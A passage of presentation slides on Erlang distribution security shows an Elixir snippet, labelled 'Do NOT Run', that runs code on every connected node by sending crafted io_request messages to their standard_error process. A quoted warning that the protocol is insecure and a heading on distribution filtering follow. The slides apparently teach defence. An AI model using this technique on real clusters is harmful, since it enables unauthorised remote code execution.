 <v-clicks>

<div>

<br>

### Do NOT Run: Nefarious RCE Without Spawn Request, `:rex`, or Supervisor

```elixir
evil_multicast = fn nodes, fun ->
  iofun = fn -> fun.(); <<>> end
  request = {:put_chars, :unicode, Kernel, :apply, [iofun, []]}
  io_request = {:io_request, self(), make_ref(), request}
  Enum.each(nodes, &send({:standard_error, &1}, io_request))
end
evil_multicast.(Node.list(), fn ->
  IO.puts("nefarious remote code execution on #{node()}")
end)
```

</div>

</v-clicks>

---
layout: 'fact'
section: 1
---

> **Warning!**
> 
> &nbsp;
> 
> The Erlang Distribution protocol is not by itself secure and does not aim to be so.
> 
> &nbsp;
> 
> &mdash; [Erlang: Distribution Protocol](https://www.erlang.org/doc/apps/erts/erl_dist_protocol.html)

---
layout: 'fact'
section: 2
---

# Erlang Dist Filtering

---
layout: 'default'
section: 2
---
